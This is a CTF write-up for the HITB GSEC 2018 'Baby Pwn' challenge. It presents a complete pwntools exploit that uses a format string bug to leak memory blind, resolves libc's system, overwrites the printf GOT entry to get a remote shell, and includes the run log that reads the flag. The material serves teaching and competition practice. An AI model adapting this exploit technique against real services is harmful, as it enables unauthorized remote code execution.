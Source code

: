 ```yaml
---
title: "HITB GSEC Qualifiers 2018 - Baby Pwn (Pwn)"
header:
  overlay_image: /assets/images/hitbgsecquals2018/babypwn/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Javier Canada on Unsplash"
tags:
  - hitbgsecquals2018
  - writeup
  - pwn
---
```


Using a format string attack on a remote server, an attacker can leverage
certain data structures present in a running Linux process to ascertain key
addresses to achieve remote code execution.

## Challenge Description

```
babypwn


nc 47.75.182.113 9999
```

#### Points

256 Points

59 Solved

## Solution

We are not given any files so we do not have any knowledge of the binary or the
libc. However, if we play around with the binary for a bit:

```shell
$ nc 47.75.182.113 9999
AAAA
AAAA
%x.%x.%x
0.0.3f2352f0
```

We can see that there is a format string vulnerability. Dumping the stack a
little leaks some information about the environment:

```
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
%p.%p.%p.%p.%p.%p.
(nil).(nil).0x7f0f57a372f0.0x7f0f57d31780.0x7f0f57f58700.0x70252e70252e7025.
0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.
0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.
0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.
0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.
0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.
0x2e70252e7025.0x1.0x7ffeb5c5d670.0x7f0f57f5c168.0xf0b5ff.0x1.0x40076d.
0x7ffeb5c5d64e.(nil).0x400720.0x4005a0.0x7ffeb5c5d730.0xe3982f93a6536c00.
0x400720.0x7f0f5798b830.0x1.0x7ffeb5c5d738.0x157f5aca0.0x400696.(nil).
0x4f11045f495cb601.0x4005a0.0x7ffeb5c5d730.(nil).(nil).0xb0ec6f54ebdcb601.
0xb10fabee28ccb601.(nil).(nil).(nil).0x7ffeb5c5d748.0x7f0f57f5c168.
```

Some important information:

* We control the 6th parameter.
* Non-PIE 64 bit binary (We see addresses such as 0x40076d)

Using this information leak primitive, we can make use of a Pwntools feature
called DynELF, which helps to resolve useful symbols such as libc functions
like `system`.

Another interesting thing we need is to find the address of the PLT@GOT and GOT
tables for our write targets. Please look at this blog post for more
information: http://uaf.io/exploitation/misc/2016/04/02/Finding-Functions.html.

Also, it should be noted that the challenge is solved similar to the following
challenge in 33c3: http://bruce30262.logdown.com/posts/1255979-33c3-ctf-2016-espr.

The final script:

```python
from pwn import *
import pwnlib

sc = None

ENTRY_POINT = 0x4005a0
PLT_GOT = 0x601000

context.arch = 'amd64'
#context.log_level = 'debug'

@pwnlib.memleak.MemLeak
def leak(addr):
    address = p64(addr)
    if "\n" in address:
        log.info("Newline in address, returning \\x00")
        return "\x00"
    payload = "%7$s.AAA" + p64(addr)
    sc.sendline(payload)
    log.info("Leaking: " + hex(addr))
    resp = sc.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    log.info("Data: " + repr(ret))
    sc.recvrepeat(0.2) # receive the rest of the string

    return ret

def get_plt_got(dynamic_addr):
    # https://docs.oracle.com/cd/E23824_01/html/819-0690/chapter6-42444.html
    # Value should be 3
    current = dynamic_addr
    while True:
        value = leak[current:current + 2]
        current += 2
        current_value = u16(value)
        if current_value == 3:
            # skip the d_val
            current += 8
            ptr = leak[current:current + 8]
            return u64(ptr)

        # skip the entry
        current += 16

def find_got_entry(target):
    current = PLT_GOT
    while True:
        current_data = leak[current:current+8]
        current_value = u64(current_data)
        if current_value == target:
            return current
        current += 8

def main():
    global sc
    sc = remote("47.75.182.113", 9999)

    d = DynELF(leak, ENTRY_POINT)
    # dynamic = d.dynamic
    # log.info("Dynamic: 0x%x" % dynamic)

    printf_libc = d.lookup("printf", "libc")
    log.info("printf@libc: 0x%x" % printf_libc)

    system_libc = d.lookup("system", "libc")
    log.info("printf@libc: 0x%x" % printf_libc)

    printf_got = find_got_entry(printf_libc)
    log.info("printf@got: 0x%x" % printf_got)

    byte1 = system_libc & 0xff
    byte2 = (system_libc & 0xffff00) >> 8
    log.info("Writing bytes 0x%x and 0x%x" % (byte1, byte2))
    payload = "%" + str(byte1) + "c" + "%10$hhn."
    payload += "%" + str(byte2 - byte1 - 1) + "c" + "%11$hn."
    payload = payload.ljust(32, "A")
    payload += p64(printf_got) + p64(printf_got + 1)
    sc.sendline(payload)
    sc.sendline("sh\x00")

    sc.interactive()

if __name__ == "__main__":
    main()
```

Running the exploit:

```
python2 leakall.py
[+] Opening connection to 47.75.182.113 on port 9999: Done
[!] No ELF provided.  Leaking is much faster if you have a copy of the ELF being leaked.
[DEBUG] Sent 0x11 bytes:
    00000000  25 37 24 73  2e 41 41 41  00 00 40 00  00 00 00 00  │%7$s│.AAA│··@·│····│
    00000010  0a                                                  │·│
    00000011
[*] Leaking: 0x400000
[DEBUG] Received 0xb bytes:
    00000000  7f 45 4c 46  02 01 01 2e  41 41 41                  │·ELF│···.│AAA│
    0000000b
[*] Data: '\x7fELF\x02\x01\x01\x00'
[.] Resolving 'printf' in 'libc.so': PT_DYNAMIC header = 0x400040
...
$ ls -la /
total 56
drwxr-x--- 27 0 1000 4096 Apr 11 07:14 .
drwxr-x--- 27 0 1000 4096 Apr 11 07:14 ..
-rwxr-x---  1 0 1000  220 Aug 31  2015 .bash_logout
-rwxr-x---  1 0 1000 3771 Aug 31  2015 .bashrc
-rwxr-x---  1 0 1000  655 May 16  2017 .profile
-rwxr-x---  1 0 1000 8640 Apr 11 07:08 babypwn
drwxr-x---  2 0 1000 4096 Apr 11 07:14 bin
drwxr-x---  2 0 1000 4096 Apr 11 07:14 dev
-rwxr-----  1 0 1000   26 Apr 11 07:06 flag
drwxr-x--- 73 0 1000 4096 Apr 11 07:14 lib
drwxr-x---  5 0 1000 4096 Apr 11 07:14 lib32
drwxr-x---  2 0 1000 4096 Apr 11 07:14 lib64
$ cat /flag
HITB{Baby_Pwn_BabY_bl1nd}
```

Flag: **HITB{Baby\_Pwn\_BabY\_bl1nd}**
